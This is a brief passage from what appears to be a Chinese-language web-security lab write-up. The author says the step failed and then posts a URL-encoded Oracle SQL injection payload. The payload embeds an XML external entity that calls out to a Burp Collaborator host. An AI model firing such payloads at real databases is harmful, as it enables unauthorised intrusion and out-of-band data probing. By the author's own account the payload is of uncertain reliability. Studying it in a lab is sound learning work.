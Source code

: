 ![img](assets/%E5%9B%BE%E7%89%87%2077.png) 

### 2.16.3. **构建payload**

这里我并未获取到相关的信息，也并未过关，这里不知道是什么情况，为何数据获取不到，原先觉得是不是payload有问题，后来看觉得应该不是payload的问题，这里就把payload先放在这里把。

```
payload：'+union+select+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"utf-8"%3f><!doctype+root+[+<!entity+%25+remote+system+"http%3a//l4q1opz0kdkuzw12pbutkgzuslybm0.burpcollaborator.net/">+%25remote%3b]>'),'/l')+from+dual--
```
